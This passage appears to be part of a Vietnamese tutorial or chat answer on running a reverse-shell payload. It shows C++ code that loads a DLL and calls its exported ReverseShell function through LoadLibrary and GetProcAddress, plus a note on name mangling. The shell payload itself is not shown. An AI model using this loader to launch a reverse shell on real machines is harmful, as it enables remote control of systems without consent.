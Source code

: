 Cách 2: Sử dụng một chương trình C++ để load DLL
Bạn có thể viết một chương trình C++ để load DLL và gọi hàm ReverseShell bằng cách sử dụng LoadLibrary và GetProcAddress.

Ví dụ:

cpp
Copy
#include <windows.h>
#include <iostream>

typedef void (*ReverseShellFunc)();

cpp 
'''
int main()
{
    // Load DLL
    HMODULE hDll = LoadLibrary(L"this.dll");
    if (hDll == NULL)
    {
        std::cerr << "Failed to load DLL!" << std::endl;
        return 1;
    }

    // Get function address
    ReverseShellFunc ReverseShell = (ReverseShellFunc)GetProcAddress(hDll, "?ReverseShell@@YAXXZ");
    if (ReverseShell == NULL)
    {
        std::cerr << "Failed to get function address!" << std::endl;
        FreeLibrary(hDll);
        return 1;
    }

    // Call the function
    ReverseShell();

    // Free DLL
    FreeLibrary(hDll);
    return 0;
}
''' 
Lưu ý: Nếu bạn sử dụng extern "C" để tránh name mangling, hãy thay đổi tên hàm trong GetProcAddress thành "ReverseShell".